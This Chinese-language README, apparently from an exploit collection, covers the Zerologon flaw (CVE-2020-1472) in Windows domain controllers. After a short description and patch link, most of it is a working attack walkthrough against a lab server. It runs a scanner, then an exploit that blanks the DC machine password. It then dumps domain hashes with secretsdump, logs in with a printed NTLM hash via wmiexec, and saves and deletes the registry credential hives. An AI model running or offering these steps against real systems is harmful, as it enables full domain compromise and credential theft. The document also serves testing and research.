 # CVE-2020-1472

## 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

## 影响版本

| Product                                                      | Version | Update | Edition | Tested |
| ------------------------------------------------------------ | ------- | ------ | ------- | ------ |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1  |         |        |         | ✔️      |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) |         |        |         | ✔️      |
| Windows Server 2012                                          |         |        |         |        |
| Windows Server 2012 (Server Core installation)               |         |        |         |        |
| Windows Server 2012 R2                                       |         |        |         |        |
| Windows Server 2012 R2 (Server Core installation)            |         |        |         |        |
| Windows Server 2016                                          |         |        |         |        |
| Windows Server 2016 (Server Core installation)               |         |        |         |        |
| Windows Server 2019                                          |         |        |         |        |
| Windows Server 2019 (Server Core installation)               |         |        |         |        |
| Windows Server, version 1903 (Server Core installation)      |         |        |         |        |
| Windows Server, version 1909 (Server Core installation)      |         |        |         |        |
| Windows Server, version 2004 (Server Core installation)      |         |        |         |        |

## 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

## 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

[![image-20201002201920794](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_dc-server.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

[![image-20201002203037104](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_scan.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

[![image-20201002204223509](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_exp.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

[![image-20201002203751057](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_secretsdump.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

[![image-20201002204817764](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_wmiexec.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

[![image-20201002205958192](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_hash.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

[![image-20201002210258903](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_decrypt_hash.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

[![image-20201002212122966](.resource/%EF%BC%88CVE-2020-1472%EF%BC%89Windows%20Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_restore_original_password.png)](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true)

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)

> https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2020-1472

